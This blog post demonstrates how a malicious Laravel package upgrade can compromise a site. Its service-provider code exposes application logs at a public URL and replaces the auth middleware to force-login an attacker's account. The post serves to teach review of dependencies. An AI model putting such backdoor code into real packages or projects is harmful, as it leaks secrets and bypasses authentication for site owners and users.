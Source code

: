 ```yaml
---
layout: post
title: Please Remember to Review Your Packages Before Installing and Upgrading
tags:
- php
- laravel
- security
---
```

Open source software is wonderful for many reasons.  One of the best is we can see and inspect the software for vulnerabilities.  But, far too many people actually do this.  Let me demonstrate, using a Laravel package, how this might backfire and cause you grief.

It's important to note that this attack vector is not solely a problem in Laravel - a lot of projects and code are configured to trust packages from the package providers.

### Our Initial Set Up

We have a website on which we sell shoes.  For example, we have this extremely boring listing for a pair of flip flops:

[![Text-based Stars](/uploads/2019/security-demo-1.thumbnail.png)](/uploads/2019/security-demo-1.png){: .thumbnail}

We'd like to add actual stars to the star rating.  We heard about this package that allows us to use a blade directive to do that.  Seems like a nice way to save some time.  The following command is ran:

```bash
composer require aaronsaray/laravel-star-display
```

Before you know it, I have a new Blade helper - yay!  Now, I can write the code like this in my blade file:

```html
<strong>Rated:</strong> @stars(5)
```

I get a nice view like this:

[![UTF8-Icon-based Stars](/uploads/2019/security-demo-2.thumbnail.png)](/uploads/2019/security-demo-2.png){: .thumbnail}

This is great! Moving on!

**Well, there's a problem.**  I didn't look at the code that was injected.  In this particular case, this package was registering an auto-discovered service provider for Laravel.  The ease of use/installation is also what makes it easy for this to take advantage of us.

Let's take a look at the code in the package's service provider:

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
    }
}
```

Whew - we dodged a bullet!  This package has no malicious code.  I mean, you *knew* that, though, because you always review all the code before you install it, right?

### It's Upgrade Season

There's an upgrade for this package.  It probably gives me more features or fixes a security hole, right? I don't have time to check into this.  So, the package get's updated.  Everything seems to be working fine.  However, now the service provider has changed (and you didn't notice).  There's a new line:

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
        
        app()
          ->make('log')
          ->pushHandler(
            new \Monolog\Handler\StreamHandler(public_path('/secret-log.txt'))
          );
    }
}
```

This code is accessing the Monolog logger instance and adding another stream handler to it.  It's writing it to a public directory.  So, later on, the now "bad guy" can surf to `http://your-site.com/secret-log.txt` and see a copy of all your application logs.

You might be writing something like... 

`logger('User sensitive information here.')`

or it might be configured to log your error stacks.  There could be information including passwords and secret keys in those log files.

### Another Upgrade

So, by browsing for this log file, the attacker has useful information already.  But, the fact that the log file exists, they know you don't check your code when you upgrade.  They can alter the file again and give themselves even more scary access.

In your app, imagine you have this very contrived admin interface:

```php?start_inline=1
Route::get('admin', function () {
    return view('admin');
})->middleware('auth');
```

When you surf to `http://your-site.com/admin` you must be authenticated.  Otherwise, you're redirected.  This is because of the `auth` middleware.  Cool!

The new upgrade introduces new code, however.  See if you can spot what's going to happen.

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
        
        app()
          ->make('log')
          ->pushHandler(
            new \Monolog\Handler\StreamHandler(public_path('/secret-log.txt'))
          );
          
        app()->instance(Authenticate::class, function ($request, $next) {
          $badGuyUser = User::where('email', 'bad@guy.com')->first();
          Auth::login($badGuyUser);
          return $next($request);
        });
    }
}
```

In this code, we replace the Authenticate class (which is aliased to `auth`) middleware with our own inline closure.  When we check auth, instead of running any sort of checks, we just grab our bad guy user and force them to be logged in.

### What Was This?

I wanted to demonstrate how it's important for us to read the code before we install and upgrade it.  Through these demonstrations, I hope to have shown that a pretty unskilled attacker can compromise your website with just a few lines of code in Laravel.

Again, these attacks are not limited to Laravel. This PHP code isn't even formatted good or architected well. It's just a quick proof of concept to demonstrate the security implications of blind updates.